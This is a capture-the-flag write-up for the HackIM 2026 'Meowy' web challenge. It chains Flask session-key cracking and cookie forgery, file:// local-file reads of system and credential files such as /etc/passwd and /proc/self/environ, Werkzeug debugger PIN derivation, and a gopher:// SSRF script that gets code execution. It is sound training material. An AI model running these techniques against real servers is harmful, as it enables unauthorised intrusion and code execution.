## HackIM CTF Goa 2026 - Meowy Write-up



### 1. Reconnaissance

We begin by scanning for directories using `gobuster` to understand the site's structure.

```bash
gobuster dir -u http://52.59.124.14:5004/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```



We find two key endpoints that immediately return a 403 (Forbidden) error:
*   `/console` – A typical path for the Werkzeug debug console.
*   `/fetch` – An unknown functionality, likely related to resource loading.

Attempting to navigate directly to `/fetch` reveals that this feature is restricted to administrators only.



This becomes our first objective: gain administrative privileges.

### 2. Flask Session Forgery

Since the application uses Flask, access rights are most likely controlled via session cookies. We can attempt to brute-force the application's `SECRET_KEY` to sign our own cookie with admin rights.

**Step 1: Preparing the Wordlist**

From the source code (which we will obtain later), we learn that the secret key is generated using the `random_word` library. This confirms our approach: using the dictionary this library works with.
```bash
wget https://raw.githubusercontent.com/vaibhavsingh97/random-word/refs/heads/master/random_word/database/words.json
jq -r 'keys[]' words.json > words.txt
```



**Step 2: Brute-forcing the Key**

We use the `flask-unsign` utility to brute-force the secret key using our session cookie.
```bash
flask-unsign --unsign --cookie 'eyJpc19hZG1pbiI6RmFsc2V9.aYegdg.fZ-Ssk_flnkCIx6R2nvnUNwCirD4' --wordlist words.txt --no-literal-eval
```



After a short while, we find the key: **`brownistical`**.

**Step 3: Generating the Admin Cookie**

Now, knowing the key, we generate a new cookie specifying that we are an administrator (`'is_admin': True`).
```bash
flask-unsign --sign --cookie "{'is_admin': True}" --secret 'brownistical'
```


We replace the cookie in our browser and refresh the page. This grants us access to the "Image Management" panel.



### 3. LFI and Information Disclosure

The admin panel allows fetching images by URL. This is a clear entry point for **SSRF** (Server-Side Request Forgery) and **LFI** (Local File Inclusion) attacks. We'll test the ability to read local files using the `file://` wrapper.

**Step 1: Reading System Files**

We start with a classic — `/etc/passwd`.
`file:///etc/passwd`



Next, let's see what's in the root directory.
`file:///`



We see the file `flag.txt`, which cannot be opened, and the binary file `/readflag` is our final goal.

**Step 2: Leaking the Source Code**

Now that we have access, we can read the application's source code.
`file:///proc/self/cwd/app.py`



We also read `requirements.txt` to find out the dependency versions.
`file:///proc/self/cwd/requirements.txt`



### 4. Werkzeug PIN Bypass

Our next target is `/console`. It's protected by a PIN that is generated based on unique system identifiers. We can extract all of this data using our LFI vulnerability.

**Required Components:**
1.  **Username:** `ctfplayer` (found from `file:///proc/self/environ`).

    

2.  **MAC Address:** `66:73:24:27:39:33` (from `file:///sys/class/net/eth0/address`).

    

    We convert it to a decimal integer: `print(0x667324273933)` -> `112644713822515`.

    

3.  **Machine ID:** `c8f5e9d2a1b3c4d5e6f7a8b9c0d1e2f3` (from `file:///etc/machine-id`).

    

4.  **Cgroup:** `0::/` (from `file:///proc/self/cgroup`).

    

We assemble all the pieces and use a script [get_flask_pin_add_cookie.py](https://github.com/WiIs0n/Flask-cookie-generation-based-on-PIN-code/blob/main/get_flask_pin_and_cookie.py) to generate the PIN and Cookie.

```bash
python get_flask_pin_add_cookie.py --username ctfplayer --uuid "112644713822515" --machineid "c8f5e9d2a1b3c4d5e6f7a8b9c0d1e2f3" --basefile "/usr/local/lib/python3.11/site-packages/flask/app.py"
```



This gives us the **PIN:** `447-653-294` and the debugger cookie.

### 5. RCE via Gopher & SSRF

We cannot simply enter the PIN through our LFI. However, the debugger allows command execution via GET requests. To do this, we need another secret that's generated for each debugger session. We use our SSRF to make a request to `http://127.0.0.1:5000/console`.



In the response, we find `SECRET = "aBCCW9bJLfWo4mtzFwSn"`. Now we have everything needed for code execution. We will craft a full HTTP request and send it using the `gopher://` protocol with the provided script `payload.py`.

```python
import urllib.parse

def generate_exploit_with_frm():
    target_ip = "127.0.0.1"
    target_port = "5000"
    
    cookie_name = "__wzd8fe6343c0faf4f031d62"
    cookie_value = "1770508435|601d98159890"
    secret = "aBCCW9bJLfWo4mtzFwSn"
    
    cmd = "__import__('os').popen('/readflag').read()"

    params = urllib.parse.urlencode({
        "__debugger__": "yes",
        "cmd": cmd,
        "frm": "0",
        "s": secret
    })

    raw_http = (
        f"GET /console?{params} HTTP/1.1\r\n"
        f"Host: {target_ip}:{target_port}\r\n"
        f"Cookie: {cookie_name}={cookie_value}\r\n"
        f"Connection: close\r\n"
        f"\r\n"
    )

    encoded_payload = urllib.parse.quote(raw_http.encode('utf-8'), safe='')
    
    full_url = f"gopher://{target_ip}:{target_port}/_{encoded_payload}"

    print(full_url)

if __name__ == "__main__":
    generate_exploit_with_frm()
```


### 6. Getting the Flag

We paste the generated `gopher://` URL into the "Image URL" field. The server makes a request to itself, accesses the debug console with all the required parameters, and executes our command. The result is returned in the "Fetch Result" field.



**Flag:** `ENO{w3rkz3ug_p1n_byp4ss_v1a_c00k13_f0rg3ry_l3ads_2_RCE!}`
